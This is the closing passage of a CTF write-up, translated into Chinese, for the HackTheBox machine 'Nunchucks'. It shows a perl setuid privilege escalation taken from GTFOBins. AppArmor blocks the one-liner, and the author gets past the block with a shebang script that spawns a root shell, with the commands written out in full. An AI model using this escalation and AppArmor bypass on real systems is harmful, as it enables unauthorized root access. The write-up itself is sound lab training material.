 使用 GTFOBins 提供的漏洞没有任何作用:

```
david@nunchucks:/tmp$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/tmp$
```

这是为什么呢？原来这个盒子已经为 Perl 启用了 Apparmor。有用的信息[在这里](https://wiki.ubuntu.com/AppArmor)来自 Ubuntu 关于它的用法。如果我们按照文章中的描述在/etc/apparmor.d 中查找，我们会看到有一个关于 Perl 的概要文件:

```
david@nunchucks:/tmp$ ls -lsa /etc/apparmor.d/usr.bin.*
-rw-r--r-- 1 root root 202 Feb 25 2020  /etc/apparmor.d/usr.bin.man
-rw-r--r-- 1 root root 442 Sep 26 01:16 /etc/apparmor.d/usr.bin.perl
```

查看该文件，我们可以看到它阻塞了我们，但是我们可以通过使用一个. pl 文件来绕过它，该文件中包含 Perl shebang 并使之可执行。这里有一点信息[但是很简单。](https://www.geeksforgeeks.org/perl-use-of-hash-bang-or-shebang-line/)

# 根标志

将来自 GTFOBins 的相同命令回显到机器上的一个文件中:

```
david@nunchucks:/tmp$ echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";' > pencer.pl
```

现在让它可执行，然后直接调用它:

```
david@nunchucks:/tmp$ chmod +x pencer.pl 
david@nunchucks:/tmp$ ./pencer.pl 
# id
uid=0(root) gid=1000(david) groups=1000(david)
# cat /root/root.txt
<HIDDEN>
```

我们开始吧。又一个盒子扎根了，下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 5 月 19 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-nunchucks/)*。*